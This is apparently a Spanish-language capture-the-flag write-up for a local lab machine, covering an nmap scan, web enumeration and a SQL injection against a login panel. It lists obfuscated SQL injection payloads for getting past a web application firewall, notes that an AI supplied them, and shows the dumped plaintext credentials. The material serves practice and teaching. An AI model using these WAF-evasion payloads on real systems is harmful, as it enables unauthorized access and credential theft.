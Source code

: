
Empezaremos como siempre lanzando un nmap para ver los puertos y servicios abiertos:

```
sudo nmap -p-  --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

Y vemos que tiene los puertos 80 y 22 abiertos, que corresponden a un apache y a ssh

ENUMERACIÓN

Empezamos dando un vistazo a la pagina web en el puerto 80.
Vemos la página web principal, llamada *Spider-Verse Nexus 2099*

También vemos que hay 3 cabeceras: Héroes, Multiverso y Contacto

En la redirección a la página Héroes, vemos  3 spidermans Peter, Miles Morales y Gwen, posibles usuarios de la máquina. Seguimos investigando

En el apartado de Multiverso, vemos un panel de login, vamos a probar a poner Admin:Admin, nos sale que son incorrectas, probaremos con una inyección sql

```
' or 1=1 -- -
```

Y nos sale: ENTRADA BLOQUEADA POR EL WAF

Esto nos da una pista de como dirigir el ataque a este panel. Un WAF (Firewall de aplicaciones web). 

Para poder vulnerar este WAF hay que ofuscar los payloads sql.
En mi caso, me ayudare de la IA para que me de una lista de payloads ofuscados:

```
%2527%2520OR%25201%253D1%252D%252D
' oR/**/1=1--
' UnIoN/*foo*/SeLeCt 1,2,3--
' OR 1=CONVERT(INT,(CHAR(49)))--
UNIOn/**/SELECt
(Por ejemplo)
```

En mi caso, diciendole a la IA, que el WAF bloquea demasiados carácteres, me dio uno que funcionó que es:

```
%2527%2520OR%25201%253D1%252D%252D
```

Al vulnerar este WAF, el panel nos devuelve lo siguiente:

```
- User: peter | Pass: sp1der
- User: miles | Pass: m0ral3s
- User: gwen | Pass: gw3n2025
```

Si nos conectamos al panel de login con esas credenciales, nos devuelve:

```
¡Acceso concedido al multiverso!

🚀 Bienvenido peter al núcleo del Spider-Verse 2099.
```
